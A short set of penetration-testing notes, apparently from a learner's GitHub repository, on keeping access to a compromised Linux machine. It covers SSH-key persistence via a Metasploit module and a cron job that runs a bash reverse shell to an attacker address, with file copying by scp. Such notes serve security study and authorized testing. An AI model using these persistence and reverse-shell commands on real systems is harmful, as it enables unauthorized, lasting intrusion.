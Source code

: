 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- scp user@192.168.1.100:/root/file.txt /home/kali/
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i [pvt_key] [user]@[target_ip]
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- * * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
